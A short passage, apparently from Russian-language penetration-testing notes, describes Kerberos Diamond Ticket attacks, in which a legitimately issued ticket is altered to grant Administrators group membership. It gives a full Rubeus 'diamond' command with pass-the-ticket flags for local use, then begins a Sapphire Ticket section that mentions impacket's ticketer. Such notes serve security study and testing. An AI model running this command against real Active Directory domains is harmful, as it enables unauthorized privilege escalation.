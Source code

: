 ![](../../../Attachments/dt_1.png)

Таким образом, нам удалось изменить существующий "легитимно выданный" KDC билет для пользователя ticket_user и присвоить ему членство в группе Администраторов.
#### Локальный вектор
Атаку возможно также проэксплуатировать локально с использованием Rubeus:

``` c
rubeus.exe diamond /krbkey:aesKey /user:user /password:password /enctype:aes /domain:domain /dc:dc-fqdn /ticketuser:user /ptt /nowrap
```


![](../../../Attachments/dt_9.png)
## Sapphire Ticket
На данный момент злодействовать можно только с помощью ticketer из набора impacket версии >= 0.10.0.